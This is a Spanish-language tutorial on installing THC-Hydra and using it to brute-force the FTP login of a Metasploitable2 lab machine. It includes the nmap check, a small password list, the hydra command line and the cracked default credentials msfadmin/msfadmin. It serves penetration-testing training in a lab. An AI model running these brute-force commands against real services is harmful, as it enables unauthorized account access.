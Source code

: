 ### ✅ Cómo instalar **Hydra**

Hydra es una de las herramientas más usadas. Se llama también **`THC-Hydra`**.

#### 🔹 En Kali Linux o Ubuntu:

```bash
sudo apt update
sudo apt install hydra
```

#### 🔹 Verifica la instalación:

```bash
hydra -h
```

---

### 🧪 EJEMPLO COMPLETO: Ataque de fuerza bruta FTP con Hydra

#### 🧑‍💻 Escenario:

Tienes una máquina virtual vulnerable (por ejemplo, **Metasploitable2**) y quieres hacer un ataque de fuerza bruta al servicio FTP (puerto 21).

#### Paso 1: Verifica si el servicio está disponible

```bash
nmap -p 21 192.168.56.103
```

#### Paso 2: Prepara tu diccionario

Crea un archivo con posibles contraseñas (por ejemplo: `pass.txt`)

```bash
echo -e "1234\nadmin\nroot\ntoor" > pass.txt
```

#### Paso 3: Ejecuta Hydra

```bash
hydra -l msfadmin -P pass.txt ftp://192.168.56.103
```

- `-l msfadmin`: usuario a probar
- `-P pass.txt`: lista de contraseñas
- `ftp://192.168.56.103`: protocolo y IP del objetivo

#### Resultado Esperado:

Hydra te mostrará algo como:

```
[21][ftp] host: 192.168.56.103   login: msfadmin   password: msfadmin
```
